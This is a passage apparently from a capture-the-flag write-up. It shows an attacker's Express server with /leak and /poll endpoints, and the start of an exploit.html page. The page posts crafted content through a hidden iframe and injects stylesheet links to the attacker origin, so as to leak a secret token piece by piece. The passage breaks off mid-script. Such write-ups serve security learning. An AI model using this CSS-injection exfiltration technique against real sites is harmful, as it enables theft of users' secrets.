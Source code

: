 ```
  res.send(variableTpl);
});

app.get('/tasks', (req, res) => {
  res.sendFile(__dirname + '/tasks.html');
});
app.get('/leak/:flag', (req, res) =>{
  flag = req.params.flag;
  console.log(req.params.flag)
  res.send('ok');
})
app.get('/poll', async (req, res) => {
  res.send(flag);
});

app.listen(PORT, () => console.log(`Server running on http://localhost:${PORT}`));
```

**exploit.html**

```
<script>
CHALL_URL = 'http://127.0.0.1:3000';
</script>

<!-- Hide iframe but use it as target -->
<iframe name="chall" style="display:none;" id="challFrame"></iframe>

<form 
  action="http://127.0.0.1:3000/tasks/0" 
  method="POST" 
  target="chall"
  id="form">
  <textarea name="content"></textarea>
</form>

<script>
function sleep(ms) {
  return new Promise(resolve => setTimeout(resolve, ms));
}

window.onload = async () => {
  let flag = 'justToken{';
  for(let i=0; i<3; i++){

    const prev = `<link rel=stylesheet href=/tasks><link rel=stylesheet href=${window.origin}/css>}`;
    const task = `${prev}${'a'.repeat(500 - flag.length - 11 - prev.length)}{}*{--x:`;
    
    form.content.value = task;
    
    // Wait for iframe to load after form submission
    const iframe = document.getElementById('challFrame');
    
    const loadPromise = new Promise((resolve) => {
        iframe.onload = () => {
        console.log("Page in iframe loaded");
        resolve();
        };
        // Handle errors
        iframe.onerror = () => {
        console.error("Iframe loading error");
        resolve(); // Prevent hanging
        };
```